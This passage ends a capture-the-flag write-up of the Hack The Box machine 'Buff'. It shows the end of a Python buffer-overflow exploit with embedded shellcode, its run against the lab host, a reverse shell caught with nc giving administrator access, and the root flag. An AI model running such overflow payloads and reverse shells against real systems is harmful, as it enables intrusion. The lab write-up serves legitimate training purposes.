 ```python
payload += b"\x7e\xe4\x8b\x6c\x71\xdb\xac\x8f\x5b\x74\x46\x6a"
payload += b"\x0c\x71\x9d\x7a\xd8\xed\xa3\x82\xe5\xd4\x2a\x64"
payload += b"\x8f\x36\x7b\x3f\x38\xae\x26\xcb\xd9\x2f\xfd\xb6"
payload += b"\xda\xa4\xf2\x47\x94\x4c\x7e\x5b\x41\xbd\x35\x01"
payload += b"\xc4\xc2\xe3\x2d\x8a\x51\x68\xad\xc5\x49\x27\xfa"
payload += b"\x82\xbc\x3e\x6e\x3f\xe6\xe8\x8c\xc2\x7e\xd2\x14"
payload += b"\x19\x43\xdd\x95\xec\xff\xf9\x85\x28\xff\x45\xf1"
payload += b"\xe4\x56\x10\xaf\x42\x01\xd2\x19\x1d\xfe\xbc\xcd"
payload += b"\xd8\xcc\x7e\x8b\xe4\x18\x09\x73\x54\xf5\x4c\x8c"
payload += b"\x59\x91\x58\xf5\x87\x01\xa6\x2c\x0c\x31\xed\x6c"
payload += b"\x25\xda\xa8\xe5\x77\x87\x4a\xd0\xb4\xbe\xc8\xd0"
payload += b"\x44\x45\xd0\x91\x41\x01\x56\x4a\x38\x1a\x33\x6c"
payload += b"\xef\x1b\x16"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

### Shell as Administrator

#### Running Exploit

```shell
cfx:  ~/Documents/htb/buff
→ python2 48389.py
```

#### Callback on nc listener

```shell
cfx:  ~/Documents/htb/buff
→ nc -lvnp 1337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49796.
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

#### Grabbing root.txt

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
acd28cb017981863006b0ff9796bdf54
```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
